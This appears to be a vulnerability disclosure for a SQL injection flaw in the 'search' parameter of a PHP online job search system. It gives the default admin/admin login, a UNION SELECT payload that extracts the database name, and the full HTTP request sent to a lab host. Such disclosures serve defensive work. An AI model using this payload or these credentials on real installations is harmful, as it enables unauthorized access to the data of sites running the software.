 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=category&search=

Vulnerability location: /eris/index.php?q=category&search=,search

Current database name: erisdb

[+] Payload: /eris/index.php?q=category&search=Banking%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,database(),15,16,17,18,19--+ // Leak place ---> search

```sql
GET /eris/index.php?q=category&search=Banking%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,database(),15,16,17,18,19--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849294-63257142-f64c-42ba-bc04-e359ed18aceb.png)

![image](https://user-images.githubusercontent.com/54017627/170849297-b0af23e4-c3d6-440b-a66e-0d0dc7a08e80.png)
